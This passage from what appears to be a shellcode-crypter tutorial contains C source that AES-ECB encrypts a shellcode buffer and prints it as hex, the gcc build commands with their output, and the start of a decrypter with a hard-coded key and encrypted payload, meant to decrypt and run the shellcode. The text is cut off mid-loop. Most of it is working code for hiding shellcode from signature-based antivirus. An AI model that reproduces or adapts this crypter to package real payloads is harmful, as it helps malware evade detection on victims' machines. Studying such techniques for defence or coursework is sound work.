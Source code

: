 ```C
      phex(shellcode + (i * 16));
    }

    return 0;
}

// prints string as hex
static void phex(uint8_t* str)
{
    unsigned char i;
    for (i = 0; i < 16; ++i)
        printf("(uint8_t) 0x%.2x, ", str[i]);
    printf("\n");
}
```
Some compilation trick can be set in order to reduce the size of the lib:

```
$ gcc -o aes.o aes.c -Wall -Os -c -DCBC=0 -DCTR=1 -DECB=1
$ gcc aes.h aes.o encrypter.c -o encrypter
$ ./encrypter 
Encoded shellcode:
(uint8_t) 0xfe, (uint8_t) 0x81, (uint8_t) 0x33, (uint8_t) 0x9e, (uint8_t) 0x8a, (uint8_t) 0x50, (uint8_t) 0x0d, (uint8_t) 0xb9, (uint8_t) 0xc0, (uint8_t) 0x9c, (uint8_t) 0x41, (uint8_t) 0xd4, (uint8_t) 0xbf, (uint8_t) 0xa0, (uint8_t) 0xb4, (uint8_t) 0x25, 
(uint8_t) 0x32, (uint8_t) 0x02, (uint8_t) 0x99, (uint8_t) 0xf5, (uint8_t) 0x01, (uint8_t) 0x02, (uint8_t) 0xf8, (uint8_t) 0x1b, (uint8_t) 0xfd, (uint8_t) 0x92, (uint8_t) 0xe7, (uint8_t) 0xf0, (uint8_t) 0x6b, (uint8_t) 0xf8, (uint8_t) 0x6b, (uint8_t) 0x63, 
```

## Decrypter

The same code can be used an combine with *shellcode.c* in order to decrypt and run the encoded shellcode.

```C
#include <stdio.h>
#include <string.h>
#include <stdint.h>

#include "aes.h"

#define SHELLCODELENGTH 32

int main(void)
{
    uint8_t i;

    uint8_t key[16] =        { (uint8_t) 0x73, (uint8_t) 0x65, (uint8_t) 0x63, (uint8_t) 0x75, (uint8_t) 0x72, (uint8_t) 0x69, (uint8_t) 0x74, (uint8_t) 0x79, (uint8_t) 0x74, (uint8_t) 0x75, (uint8_t) 0x62, (uint8_t) 0x65, (uint8_t) 0x53, (uint8_t) 0x4c, (uint8_t) 0x41, (uint8_t) 0x45 };

    uint8_t shellcode[SHELLCODELENGTH] = { (uint8_t) 0xfe, (uint8_t) 0x81, (uint8_t) 0x33, (uint8_t) 0x9e, (uint8_t) 0x8a, (uint8_t) 0x50, (uint8_t) 0x0d, (uint8_t) 0xb9, (uint8_t) 0xc0, (uint8_t) 0x9c, (uint8_t) 0x41, (uint8_t) 0xd4, (uint8_t) 0xbf, (uint8_t) 0xa0, (uint8_t) 0xb4, (uint8_t) 0x25, (uint8_t) 0x32, (uint8_t) 0x02, (uint8_t) 0x99, (uint8_t) 0xf5, (uint8_t) 0x01, (uint8_t) 0x02, (uint8_t) 0xf8, (uint8_t) 0x1b, (uint8_t) 0xfd, (uint8_t) 0x92, (uint8_t) 0xe7, (uint8_t) 0xf0, (uint8_t) 0x6b, (uint8_t) 0xf8, (uint8_t) 0x6b, (uint8_t) 0x63 };
    struct AES_ctx ctx;
    AES_init_ctx(&ctx, key);

    for (i = 0; i < SHELLCODELENGTH / 16; ++i)
    {
      AES_ECB_decrypt(&ctx, shellcode + (i * 16));
```